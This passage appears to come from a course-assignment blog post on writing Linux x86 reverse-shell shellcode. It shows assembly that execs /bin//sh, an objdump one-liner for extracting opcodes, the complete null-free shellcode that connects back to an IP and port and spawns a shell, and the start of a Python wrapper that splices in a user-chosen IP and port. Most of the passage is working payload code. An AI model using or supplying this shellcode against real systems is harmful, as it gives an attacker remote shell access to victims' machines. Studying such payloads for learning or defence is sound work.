 ```nasm
	push eax
	push 0x68732f6e
	push 0x69622f2f
	mov ebx, esp
	push eax
	mov edx, esp
	push ebx
	mov ecx, esp
	mov al, 0x0b

  	int 0x80

```

## Shellcode

To get our shellcode, we can run this nifty command `objdump -d ./<PROGRAM>|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'`

Our shellcode is: 
```terminal_session
\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc7\x31\xc0\x66\xb8\x6a\x01\x89\xfb\x31\xc9\x51\xb9\x80\x01\x01\x02\x81\xe9\x01\x01\x01\x01\x51\x66\x68\x15\xb3\x66\x6a\x02\x89\xe1\xb2\x10\xcd\x80\x31\xc0\x31\xdb\x31\xc9\xb1\x03\xb0\x3f\x89\xfb\xfe\xc9\xcd\x80\x75\xf6\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```

Looks to be null free!

## Python Wrapper

The next criteria we have to satisfy for the assignment, is to have the shell code created dynamically with user input for an IP address and port number. I have created a python wrapper to accomplish this. ***NOTE:*** I tried to make the wrapper capabale of supporting IP address inputs with zeroes in them by using the same method we used in our assembly code; however, adding `1.1.1.1` to the user provided IP address will break the wrapper if the user inputs an address with an octet value of `255`.

```python
#!/usr/bin/python

import socket
import sys
import binascii

shell1 = ""
shell1 += "\\x31\\xc0\\x31\\xdb\\x31\\xc9\\x31\\xd2\\x66\\xb8\\x67\\x01\\xb3\\x02\\xb1\\x01\\xcd\\x80"
shell1 += "\\x89\\xc7\\x31\\xc0\\x66\\xb8\\x6a\\x01\\x89\\xfb\\x31\\xc9\\x51\\xb9"
shell2 = ""
shell2 += "\\x81\\xe9\\x01\\x01\\x01\\x01\\x51\\x66\\x68"
shell3 = ""
shell3 += "\\x66\\x6a\\x02\\x89\\xe1\\xb2\\x10"
shell3 += "\\xcd\\x80\\x31\\xc0\\x31\\xdb\\x31\\xc9\\xb1\\x03\\xb0\\x3f\\x89\\xfb\\xfe\\xc9\\xcd\\x80"
shell3 += "\\x75\\xf6\\x31\\xc0\\x50\\x68\\x6e\\x2f\\x73\\x68\\x68\\x2f\\x2f\\x62\\x69\\x89\\xe3\\x50"
shell3 += "\\x89\\xe2\\x53\\x89\\xe1\\xb0\\x0b\\xcd\\x80"

if len(sys.argv) != 3:
	print 'Usage: wrapper.py <host IP> <port>'
	exit

```